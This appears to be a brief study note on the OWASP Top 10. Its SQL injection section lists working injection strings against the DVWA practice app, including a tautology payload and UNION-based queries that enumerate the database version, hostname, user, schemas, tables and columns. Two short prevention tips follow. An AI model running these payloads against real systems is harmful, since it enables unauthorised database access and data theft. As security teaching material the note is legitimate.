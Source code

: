 # OWASP Top 10

## SQL Injection
```sql 
-- Select all possible data
SELECT First_Name,Last_Name FROM users WHERE ID=a’ OR ”=’;
```
- [Reference Link](https://pentestlab.blog/2012/09/18/sql-injection-exploitation-dvwa/)
##### MySql
```sql
    SELECT version()
    SELECT @@version

    --select DB version
    SELECT First_Name,Last_Name FROM users WHERE ID= '' union select 1,@@version#;

    --select DB hostname
    SELECT First_Name,Last_Name FROM users WHERE ID= '' union select null,@@hostname#;

    -- get database user
    SELECT user();
    SELECT current_user;
    SELECT system_user();

    -- get database name
    SELECT First_Name,Last_Name FROM users WHERE ID= '' union select null,database()#;

    -- list all the available databases name
    SELECT schema_name from information_schema.schemata

    SELECT First_Name,Last_Name FROM users WHERE ID= '' union select null,schema_name from information_schema.schemata#;

    -- retrieve table names
    SELECT table_name from information_schema.tables

    -- retrieve table name from specific Database

    SELECT table_name from information_schema.tables where table_schema = 'EthereumGames'

    -- retrieve columns from specific table
    -- 0x0a is whitespace
    select concat(table_name,0x0a,column_name) from information_schema.columns where table_name= 'Account'

    -- retrieve location of database
    select @@datadir 
```

### Prevention
1. Using parameter holder: System will automatically escape symbo from text and turn it to string.
2. Using store procedure: We can set application exceution permission for preventing delete.

### Broken authentication and session management

